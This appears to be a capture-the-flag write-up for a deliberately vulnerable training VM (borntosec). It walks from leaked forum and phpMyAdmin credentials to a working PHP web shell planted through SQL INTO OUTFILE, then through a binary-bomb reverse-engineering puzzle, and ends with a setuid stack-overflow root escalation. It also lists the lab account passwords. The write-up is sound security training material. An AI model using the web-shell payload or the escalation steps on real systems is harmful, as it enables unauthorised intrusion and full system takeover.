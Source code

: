## Laurie entrypoint starting from /forum

Since we have access to /forum we can start gathering info
Some user are:
- admin
- lmezard
- zaz
- thor
- wandre
- qudevide

In a post we find a login and a password that was misstyped by lmezard
The password is `!q\]Ej?*5K5cy*AJ`

With this we can connect to the forum as lmezard, and this let us this her email on her profile
lmezard email is `laurie@borntosec.net`
Her password is the same than her forum password
Now we can connect as laurie on /webmail

She has 2 mail, one containing db root access we can use on /phpmyadmin
`user: root
 pass: Fg'kKXBj87E:aJ$`
Interesting to note that the sender email is `qudevide@mail.borntosec.net`
and laurie sent the same email to `ft_root@mail.borntosec.net`

Now we have access to the database which gives us some software additional info:
- Server: Localhost via UNIX socket
- Server version: 5.5.44-0ubuntu0.12.04.1
- Protocol version: 10
- User: root@localhost
- MySQL charset: UTF-8 Unicode (utf8)

## Reverse shell
From native SQL QUERY we can create file
The root dir of mysql on the system seems to be /var/lib/mysql/
Except here it looks like we cant create a file anywhere on the system
After a lot of tries everywhere, we discovered we can write inside /forum/templates_c/
To do the reverse shell we can do it in php with the shell_exec command

SELECT '<form method="get"><label><input type="text" name="cmd" value=""></label><button>Exec</button></form><?php if(isset($_GET["cmd"])){ $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; } ?>' INTO OUTFILE "/var/www/forum/templates_c/sh.php"

Then we can execute command logged in as www-var, wich is the apache2 users
Looking around the system, we find a password file in /home/LOOKATME/password
The credentials inside are : `lmezard:G!@M6f4Eatau{sF"`

They are ftp credentials, when connecting to the ftp server there is pcap file,
We have to extract the archive with tar and sort the file inside
We can automate them in a script and recompile the C file or just
`grep -R getme ft_fun -A 3`
`grep -R return ft_fun -A 3` to sort them manually, there is only 12 char we need

The result we get is : Iheartpwnage
When we sha256 it we get the ssh credentials for the laurie acc `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

Now we're logged in as laurie, we see a 'bomb' software that is a 32 binary
We can reverse it and solve the 6 steps then concatenate the result and we'll have the password for the thor acc

## The bomb
When looking at the reversed code we see some strange stuff like the secret phase that we can activate on stage 4 by adding 'austinpowers'
But it doesnt seem to do anything meaningful, likewise there is some intriguing function like send_mail but it doesnt look activated at all for now
Back to solving each regular step of the bomb ->

1/ Public speaking is very easy.
2/ 1 2 6 24 120 720
3/ 5 t 458
4/ 9
5/ opekma
6/ 4 2 6 3 1 5

Quick notes on step 3:
Solution is 5 t 458 but there can be other
Like 1b2149

Quick notes on step 4:
The rank for which fibonacci = 55
Its 9

Quick notes on step 5:
Solution is opekma but there can be other
Like opekmq

There is probably 2 way to do this challenge, either crack the logic of the mask which we didnt
Or send the whole alphabet to create a table to find the match to 'giants'
abcdef: srveaw
ghijkl: hobpnu
mnopqr: tfgisr
stuvwx: veawho
yz: bp

Quick notes on step 6:
read6 func so we understand the input has 6 char
The first while check that all input are number < 7
Second and third while sets up the linked list according to some rule we dont need to understand
Fourth while and last part of the code is just a simple step through the linked list
And it checks that each node value is lesser than the previous one
*if (current node < next node)*
   *explode*
*current node = next node*
The answer is `4 2 6 3 1 5`
We can verify this by just sending 123456 to check node value right before the last step in gdb

The final password for thor is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

## Turtle

We have a series of instructions, when visualised with a python script (check script repo)
We get a stylised "SLASH"
When we md5 it we get the password for zaz user: `646da671ca01bb5d84dbb5fb2238dc8e`

## Overflow binary

In zaz repo there is a binary that is vulnerable to a stack overflow 
We can inject a shellcode in it which will get executed with a proper padding
Since the vulnerable binary is setuid with root right the shell we get from the shellcode is as root

We can verify with a `whoami` inside and we have our interactive shell as root on the machine
Hooray!!
